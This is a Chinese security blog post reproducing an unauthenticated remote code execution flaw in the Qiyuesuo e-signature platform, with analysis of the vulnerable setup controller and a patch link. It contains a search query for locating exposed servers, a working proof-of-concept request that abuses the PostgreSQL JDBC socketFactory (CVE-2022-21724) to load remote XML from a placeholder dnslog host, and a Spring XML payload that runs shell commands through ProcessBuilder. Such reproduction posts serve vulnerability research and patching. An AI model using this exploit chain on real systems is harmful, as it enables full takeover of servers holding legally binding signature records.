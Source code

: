 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzI4MjkxNzY1NQ==&mid=2247485905&idx=1&sn=bde9c0b7742a30ff31614872d63a3cbd

#  【漏洞复现】契约锁远程代码执行漏洞  
徐志洋  玄武盾网络技术实验室   2025-06-17 09:11  
  
免责声明：本文仅供安全研究与学习之用，严禁用于非法用途，违者后果自负。  
## 漏洞介绍  
  
契约锁是一个电子签章及印章管控平台，提供的电子文件具有与纸质文件一样的法律效力。近日，契约锁发布安全补丁修复了远程代码执行漏洞。该漏洞允许未经过身份认证的攻击者可以利用该漏洞在契约锁管理端上执行任意代码，从而完全控制服务器。  
## 语法  

```
app=&#34;契约锁-电子签署平台&#34;&& port=&#34;9181&#34;
```

  
## 漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LAS14MYIqH3FFRfsiabBzNzOdJIFIoicH0ibLXKOkRDTg9kflIAhljz3dA/640?wx_fmt=png&from=appmsg "")  
  
POC:  
  
(这微信页面直接复制代码格式会乱，可以浏览器打开复制)  

```
/setup/dbtest
/api/setup/dbtest?db=POSTGRESQL&host=localhost&port=5321&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2Fxxx.dnslog.cn%2F1%2Exml
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LLFg7QvRKdVwiaUJxUfQ2Qtv8Qnv1YLstLf4jRVSw9hHGRtiaF3bI954A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LC9YjYgDxruqEBsqtMGZoTFGvfRhVTaKg6QRXIFIKp6soIEjQMicXpBA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83L294poZhoY4FwsgKYwIH3eWDxibHjibJcLTqXJd7OtOwNiaXBayNcQytdw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LLaUwNIAibJBqhZ1GUnibYr1g4tx3RicKpKggTo2IGwfF3sbtfF92fMLWw/640?wx_fmt=png&from=appmsg "")  
## 漏洞分析  
  
接口位置：  

```
qiyuesuo\privoss.jar!\BOOT-INF\classes\com\qiyuesuo\setup\SetupController.class
```

  
参数为db、name、host、port、username、password  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LygSuTbahJbpWbwyFH8l6vKnRzficmpVic4lLBtMeG5karMqY0ib9Of9Nw/640?wx_fmt=png&from=appmsg "")  
  
跟进validateDatabase 方法 ，来到  

```
privoss.jar!\BOOT-INF\classes\com\qiyuesuo\setup\SetupService.class
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LyuxDIggeTf89PRy9l6wAkKxl25B5SibLsImrLhDWO7BswFkAAUmoc9Q/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LiaS7GY3Tv7Z5mtHooDU8At2ME5sHYicnyb8qIgJFuEQs3NvdliadwibesQ/640?wx_fmt=png&from=appmsg "")  
  
跟进  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83L32RRS1tw1gQeBvBzmGht0WqcicgOgXFskqXgb4EpZRfoiarN8RQH98Ug/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LwvEuXHOfnIEFUNQb9hdgytQbN3kfgKficvukgogAdLZWE7a8ySCQxKw/640?wx_fmt=png&from=appmsg "")  
  
支持的jdbc  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LjmdTJaWbBrYoseygcdqIbKcpiclfzUHZtARLFYFlPfClMCE3KcEd4GA/640?wx_fmt=png&from=appmsg "")  
  
漏洞利用的是PostgreSQL JDBC Driver RCE（CVE-2022-21724）  

```
<beans xmlns=&#34;http://www.springframework.org/schema/beans&#34;
       xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34;
       xmlns:p=&#34;http://www.springframework.org/schema/p&#34;
       xsi:schemaLocation=&#34;http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd&#34;>
   <bean id=&#34;exec&#34; class=&#34;java.lang.ProcessBuilder&#34; init-method=&#34;start&#34;>
        <constructor-arg>
          <list>
            <value>/bin/sh</value>
            <value>-c</value>
            <value>touch /tmp/test</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LY8dYp2TTzdBVFcHoHAXIf7RhHUDIhcUqrvpA4rBwFNY92nFr9xAvNg/640?wx_fmt=png&from=appmsg "")  
## 修复意见  
##   
  
官方已更新补丁，及时更新最新版本：https://www.qiyuesuo.com/more/security/servicepack  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/UM0M1icqlo0knIjq7rj7rsX0r4Rf2CDQylx0IjMfpPM93icE9AGx28bqwDRau5EkcWpK6WBAG5zGDS41wkfcvJiaA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
声明：  
技术文章均收集于互联网，仅作为本人学习、记录使用。  
侵权删  
！  
！  
！  
  
  
